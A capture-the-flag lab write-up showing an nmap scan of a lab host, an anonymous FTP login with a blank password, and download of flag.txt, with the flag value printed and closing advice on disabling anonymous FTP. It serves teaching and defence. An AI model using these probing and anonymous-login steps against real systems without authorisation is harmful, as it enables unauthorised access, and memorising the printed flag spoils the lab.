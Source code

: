 
## **Overview**

- **Difficulty:** Easy
- **Operating System:** Linux
- **Objective:** Capture flag via FTP
- **Tools Used:** `nmap`, `ftp`, `openvpn`

---

## **Scanning using Nmap**

Started with a nmap scan to get information about whether telnet was running on port 21 as mentioned in the task.
```
$ sudo nmap -sV -p21 10.129.71.129
[sudo] password for alice: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 18:27 IST
Nmap scan report for 10.129.71.129
Host is up (0.50s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.77 seconds
```

And, it is!

---

## **Accessing FTP at 10.129.71.129**

Now, let's `ftp` into said IP.
```
$ ftp 10.129.71.129
Connected to 10.129.71.129.
220 (vsFTPd 3.0.3)
Name (10.129.71.129:ghost):
```

Trying `anonymous` which usually has a blank password:
```
$ ftp 10.129.71.129
Connected to 10.129.71.129.
220 (vsFTPd 3.0.3)
Name (10.129.71.129:alice): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

---

## **Flag Retrieval**

Next, let's `ls` into the file contents:
```
ftp> ls
229 Entering Extended Passive Mode (|||62735|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
get falg.txt226 Directory send OK.
```

And, there is the flag!
Let's `get` it.
```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||48920|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************************************************************************************************************|    32      376.50 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:02 (0.01 KiB/s)
ftp> exit
221 Goodbye.
```

Once back home, let's `cat` the contents:
```
$ cat flag.txt
035db21c881520061c53e0536e44f815
```

---
## **Flag**

The flag is `035db21c881520061c53e0536e44f815`.

---
## **Lessons Learned**

- It is fair to say that a lot of misconfigured FTP's allow for `anonymous` login without the need for passwords, but when normally configured have very limited access to users. But when misconfigured leave out critical information.
- The best way to mitigate this issue is first of all disable anonymous login in the first place. Next, restrict permissions severely if needed. But also strictly log all activity in anonymous logins.

---

**Prepared by Araiz Naqvi**